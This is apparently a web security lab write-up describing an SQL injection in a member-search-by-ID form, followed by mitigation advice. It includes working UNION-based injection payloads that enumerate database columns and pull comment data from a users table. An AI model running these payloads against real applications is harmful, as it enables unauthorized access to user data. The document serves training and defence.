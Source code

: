 
# Exploit: SQL Injection in Member Search by ID

## Vulnerability
In the member search by ID section, we observed that inputting `'1'` causes the following error:
```
You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '\'1\'' at line 1
```
This indicates that the form is not protected against SQL injection.

## Steps to Exploit
1. To enumerate the fields of the table related to images in the database, use the following payload:
   ```
   1 OR 1=1 UNION SELECT table_name, column_name FROM information_schema.columns
   ```
2. This reveals various fields in the table, such as:
   - `password`
   - `first_name`
   - `name`
   - `user_id`
   - `country`
   - `Commentaire`
   - `id_comment`
   - `comment`
   - ...

3. Using this information, extract sensitive data. For example:
   ```
   1 OR 1=1 UNION SELECT Commentaire, comment FROM users
   ```

## Result
Successfully retrieve sensitive data, exposing user information.

## Patch
To mitigate this vulnerability:
1. Always use parameterized queries (e.g., prepared statements) to handle user inputs securely.
2. Sanitize and validate inputs to ensure only expected data formats are processed.
3. Restrict database permissions to minimize access for user accounts.
4. Regularly audit and test your application for SQL injection vulnerabilities.
